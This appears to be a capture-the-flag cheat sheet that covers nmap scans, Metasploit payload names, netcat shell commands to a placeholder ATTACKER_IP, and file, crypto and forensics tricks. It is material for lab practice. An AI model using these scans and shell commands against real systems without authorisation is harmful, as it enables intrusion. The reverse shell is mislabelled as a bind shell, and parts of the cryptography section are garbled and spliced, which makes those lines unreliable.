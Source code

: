 ### SCANNING
* `nmap -sn <NETWORK>` -- Ping Sweep
* `nmap -T4 <NETWORK>` -- SYN Scan with Speed of 4 and port of common 1000 TCP
* `nmap -T4 -A -p- <NETWORK>` -- All Port scan with All Scanning including OS, Version, Script and Traceroute
* `nmap -sU -T4 <NETWORK>` -- UDP Ports, Dont scan all scans, as it takes lot of time.


### Payloads
* `windows/meterpreter_reverse_tcp` is Non Staged Payload
* `windows/meterpreter/reverse_tcp` is  Staged Payload

### SHELL
* Reverse Shell
* Bind Shell : `nc <ATTACKER_IP> <ATTACKET_PORT>`, to listen : `nc -lvp <ATTACKER_PORT>`

## File Hacking
* If something is hidden on a pdf which we need to find, we can Press Ctrl + A to copy everything on the pdf and paste on notepad.
   * If nothing is found, we can use [Inkspace tool](https://inkscape.org) to paste the pdf and try to ungroup several times to extract any hidden flag.
   * We can even solve using pdf-uncompress tools like qpdf to convert compressed data to redeable format and solve from there.
* If there is `PK` at the start of the file in the magic bytes, its most probably `ZIP` File.
* If there is recursive ZIP File, we can use the following command `binwalk -Me <FILE_NAME>`.
* If EXE file is having some hidden text, we can use hexeditor or strings to locate the flag.
* If hidden text has == at the end, it is base64 encoded.
* We can use Strace to track all application calls.
  * Command: `strace -s -f 12345 -e trace=recv,read <PROGRAM>`
* We can use ltrace to track all app + library calls.
  * Command: `ltrace ./<PROG_NAME>`

## Cryptography
* If there is word `caesar` in the question or hint, this can be a substitution cipher.
  * Use this website ww* This [site](https://www.guballa.de/vigenere-solver) is great at breaking Vigenère ciphers without knowing the key.
* If you find `!` in the cipher text and cipher seems to be within certain range of Letters and appears to be transposition of a plain text, Use this website [Ceasar Box](https://www.dcode.fr/caesar-box-cipher)w.dcode.fr/caesar-cipher to Bruteforce the hidden message.
* To solve One Time Pad : [OTP](http://rumkin.com/tools/cipher/otp.php)


## Forensics
* If there is a image given, try `file` comamnd on the image to learn more information.
* Binwalk to find data inside the image or sometimes if binwalk reports as zip Archive, we can rename the file to <FILE_NAME>.zip to find interesting data.
   * Command `binwalk <IMAGE_NAME>`
* If there is ntfs file,extract with 7Zip on Windowds. If there is a file with alternative data strems, we can use the command `dir /R <FILE_NAME>` and then we can this command to extract data inside it `cat <HIDDEN_STREAM> > asdf.<FILE_TYPE>`
* Method to extract ntfs in Linux : `sudo mount -o loop <FILENAME.ntfs> mnt`
* To extract data from Image files, we can use `zsteg <FILE_NAME>`
* Javascript Deobfuscator [Jsnice](http://www.jsnice.org/) 
* To check metadata `exiftool <FILE_NAME>`
* GrepToWin : `strings <FILE_NAME> | grep flag{`
* StegHide `steghide extract -sf <FILE_NAME>`
